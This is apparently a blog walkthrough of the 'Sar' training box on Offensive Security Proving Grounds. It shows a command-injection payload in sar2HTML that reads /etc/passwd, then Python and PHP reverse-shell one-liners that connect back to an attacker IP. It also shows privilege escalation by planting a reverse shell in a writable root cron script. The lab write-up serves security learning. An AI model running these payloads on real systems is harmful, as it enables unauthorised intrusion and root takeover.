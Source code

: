 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Location:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 

### Step 1: Network Scanning
- Perform a stealth scan of the entire subnet to identify target machine
> nmap -sS [ip range]

- identify open ports
- open ip address in browser
  * shows default Apache page

### Step 2: Directory Brute Force
- Perform a directory brute force

> gobuster dir -u [url] -w [path to wordlist]

- identifies robot.txt
  * text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server
- - -
### Research
- Research to find **sar2HTML** exploit
  * Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
  * Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
    * Example: **http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd**
- - - 
### Now I want a reverse shell
- At least a few options:
 1. Use Python or Perl command to take reverse shell
 2. Metaploit to create a reverse connectdion file and u pload it on target using wget 
 3. If target has NetCut utility, it can take the reverse connection

### Attempt NetCut utility
  - Run nc command to see if it has output
    - > nc -help
    - any return on output means it is available (does not work here)
### Attempt Python or Perl package
  - Run python help command to verify any output
    - > python3 --help
    - This works
  - Example command used with RCE:
    - > python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
    - > nc -lvp 1234
  - Gain stable shell access:
    - > python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
  - **user flag can be found here** (/home/love/Desktop/user.txt)
- - -
### Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh
        * > php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
        * IP address = attacker machine (mine)
        * Setup listener **nc -lvp 4444**
        * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
> echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
- echo requires a \ in front of a $ and " (probably more)




